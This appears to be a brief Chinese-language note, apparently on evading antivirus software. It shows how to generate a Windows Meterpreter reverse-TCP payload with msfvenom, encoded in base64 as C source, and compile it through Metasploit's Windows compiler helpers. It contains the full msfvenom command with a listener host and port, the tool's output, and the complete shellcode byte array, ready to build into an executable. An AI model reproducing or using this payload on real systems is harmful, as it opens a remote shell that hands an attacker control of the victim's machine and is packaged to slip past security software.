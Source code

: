 ```c
Metasploit::Framework::Compiler::Windows.compile_c(code)

Metasploit::Framework::Compiler::Windows.compile_c_to_fle(fle_path, code)
```

https://mp.weixin.qq.com/s/HsIqUKl7j1WJ4yyYzXdPZg

先使用msfvenom生成base64编码的c代码

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.131 lport=4444  --encrypt base64   -f c`

```bash
root@localhost:~/msf/miansha# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.131 lport=4444  --encrypt base64   -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of c file: 1941 bytes
unsigned char buf[] = 
"\x2f\x4f\x69\x43\x41\x41\x41\x41\x59\x49\x6e\x6c\x4d\x63\x42"
"\x6b\x69\x31\x41\x77\x69\x31\x49\x4d\x69\x31\x49\x55\x69\x33"
"\x49\x6f\x44\x37\x64\x4b\x4a\x6a\x48\x2f\x72\x44\x78\x68\x66"
"\x41\x49\x73\x49\x4d\x48\x50\x44\x51\x48\x48\x34\x76\x4a\x53"
"\x56\x34\x74\x53\x45\x49\x74\x4b\x50\x49\x74\x4d\x45\x58\x6a"
"\x6a\x53\x41\x48\x52\x55\x59\x74\x5a\x49\x41\x48\x54\x69\x30"
"\x6b\x59\x34\x7a\x70\x4a\x69\x7a\x53\x4c\x41\x64\x59\x78\x2f"
"\x36\x7a\x42\x7a\x77\x30\x42\x78\x7a\x6a\x67\x64\x66\x59\x44"
"\x66\x66\x67\x37\x66\x53\x52\x31\x35\x46\x69\x4c\x57\x43\x51"
"\x42\x30\x32\x61\x4c\x44\x45\x75\x4c\x57\x42\x77\x42\x30\x34"
"\x73\x45\x69\x77\x48\x51\x69\x55\x51\x6b\x4a\x46\x74\x62\x59"
"\x56\x6c\x61\x55\x66\x2f\x67\x58\x31\x39\x61\x69\x78\x4c\x72"
"\x6a\x56\x31\x6f\x4d\x7a\x49\x41\x41\x47\x68\x33\x63\x7a\x4a"
"\x66\x56\x47\x68\x4d\x64\x79\x59\x48\x69\x65\x6a\x2f\x30\x4c"
"\x69\x51\x41\x51\x41\x41\x4b\x63\x52\x55\x55\x47\x67\x70\x67"
"\x47\x73\x41\x2f\x39\x56\x71\x43\x6d\x6a\x41\x71\x41\x4b\x44"
"\x61\x41\x49\x41\x45\x56\x79\x4a\x35\x6c\x42\x51\x55\x46\x42"
"\x41\x55\x45\x42\x51\x61\x4f\x6f\x50\x33\x2b\x44\x2f\x31\x5a"
"\x64\x71\x45\x46\x5a\x58\x61\x4a\x6d\x6c\x64\x47\x48\x2f\x31"
"\x59\x58\x41\x64\x41\x72\x2f\x54\x67\x68\x31\x37\x4f\x68\x6e"
"\x41\x41\x41\x41\x61\x67\x42\x71\x42\x46\x5a\x58\x61\x41\x4c"
"\x5a\x79\x46\x2f\x2f\x31\x59\x50\x34\x41\x48\x34\x32\x69\x7a"
"\x5a\x71\x51\x47\x67\x41\x45\x41\x41\x41\x56\x6d\x6f\x41\x61"
"\x46\x69\x6b\x55\x2b\x58\x2f\x31\x5a\x4e\x54\x61\x67\x42\x57"
"\x55\x31\x64\x6f\x41\x74\x6e\x49\x58\x2f\x2f\x56\x67\x2f\x67"
"\x41\x66\x53\x68\x59\x61\x41\x42\x41\x41\x41\x42\x71\x41\x46"
"\x42\x6f\x43\x79\x38\x50\x4d\x50\x2f\x56\x56\x32\x68\x31\x62"
"\x6b\x31\x68\x2f\x39\x56\x65\x58\x76\x38\x4d\x4a\x41\x2b\x46"
"\x63\x50\x2f\x2f\x2f\x2b\x6d\x62\x2f\x2f\x2f\x2f\x41\x63\x4d"
"\x70\x78\x6e\x58\x42\x77\x37\x76\x77\x74\x61\x4a\x57\x61\x67"
"\x42\x54\x2f\x39\x55\x3d";

```
